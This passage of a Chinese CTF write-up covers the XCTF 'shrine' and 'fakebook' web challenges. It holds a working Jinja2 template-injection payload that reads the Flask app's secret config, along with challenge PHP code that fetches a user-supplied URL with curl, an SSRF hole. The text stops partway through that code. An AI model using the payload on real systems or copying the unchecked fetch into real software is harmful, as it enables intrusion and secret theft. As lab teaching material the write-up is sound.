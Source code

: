 ```
{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

ps：我感觉第一个比较好理解

参考：

[(43条消息) 攻防世界web进阶区shrine详解_無名之涟的博客-CSDN博客](https://blog.csdn.net/hxhxhxhxx/article/details/107698218)

# fakebook

- SSRF
- sql注入

![image-20220707155352650](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071553783.png?x-oss-process=hzy)

![image-20220707154734277](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071547367.png?x-oss-process=hzy)

首先先注册一个进去

![image-20220707154756724](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071547806.png?x-oss-process=hzy)

然后目录扫描能找到robots.txt和flag.php

![image-20220707155614776](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071556887.png?x-oss-process=hzy)

![image-20220707154834772](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207071548858.png?x-oss-process=hzy)

访问这个得到的是源码，简单分析一下

```
<?php
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

	public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();    // 初始化一个curl会话

        curl_setopt($ch, CURLOPT_URL, $url); // 设置需要抓取的url
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); // 设置curl参数，要求结果保存到字符串还是输出到屏幕上
        $output = curl_exec($ch); // 运行curl，请求网页
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE); // 获取一个curl连接资源句柄的信息
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch); // 关闭curl会话

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
```